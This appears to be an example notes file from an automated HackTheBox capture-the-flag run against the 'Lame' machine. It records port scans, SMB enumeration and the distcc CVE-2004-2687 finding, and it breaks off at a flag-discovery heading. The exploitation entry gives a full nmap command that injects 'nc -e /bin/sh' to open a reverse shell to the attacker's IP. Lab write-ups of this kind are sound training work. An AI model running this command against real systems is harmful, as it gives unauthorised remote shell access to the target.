 ### Example: `notes.md` produced by the run in the video

```markdown
# HackTheBox Challenge Notes

**Target IP:** <TARGET_IP>  
**Kali IP:** <KALI_IP>  
**Start Time:** August 7, 2025

## Timeline and Findings

### 2025-08-07 - Initial Setup
- Verified Kali MCP server health: Healthy (v0.2.1)
- Confirmed Kali IP configuration: <KALI_IP> on tun0 interface
- Working directory set to: /c/temp/test-kali-mcp
- Created documentation files (notes.md, usernames.txt, passwords.txt)

### 2025-08-07 22:06 - Nmap Port Scan Results
**Target:** <TARGET_IP> (lame.hackthebox.gr)

**Open Ports:**
- **21/tcp** - FTP (vsftpd 2.3.4) - Anonymous login allowed
- **22/tcp** - SSH (OpenSSH 4.7p1 Debian 8ubuntu1)
- **139/tcp** - NetBIOS-SSN (Samba smbd 3.X - 4.X)
- **445/tcp** - NetBIOS-SSN (Samba smbd 3.0.20-Debian)
- **3632/tcp** - distccd v1 ((GNU) 4.2.4)

**Key Findings:**
- OS: Unix (Samba 3.0.20-Debian)
- Computer name: lame
- Domain: hackthebox.gr
- Anonymous FTP access enabled
- Old SSH version (4.7p1)
- Old Samba version (3.0.20-Debian)
- distccd service running on port 3632

### 2025-08-07 22:11 - SMB Enumeration (enum4linux)
**Notable Users Found:**
- root
- user  
- msfadmin
- administrator

**SMB Shares:**
- tmp (accessible with anonymous login)
- print$ (denied)
- opt (denied)
- IPC$ 
- ADMIN$ (denied)

### 2025-08-07 22:12 - distcc Vulnerability Identified
- CVE-2004-2687: distcc Daemon Command Execution
- Service vulnerable to arbitrary command execution
- Confirmed with test command: `id` returned `uid=1(daemon) gid=1(daemon) groups=1(daemon)`

### 2025-08-07 22:13 - SUCCESSFUL EXPLOITATION!
**Exploit Method:** distcc CVE-2004-2687 command injection
**Command Used:** `nmap -p 3632 <TARGET_IP> --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -e /bin/sh <KALI_IP> 4444'"`
**Result:** Reverse shell established as `daemon` user
**System:** Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

### 2025-08-07 22:14 - FLAG DISCOVERY
```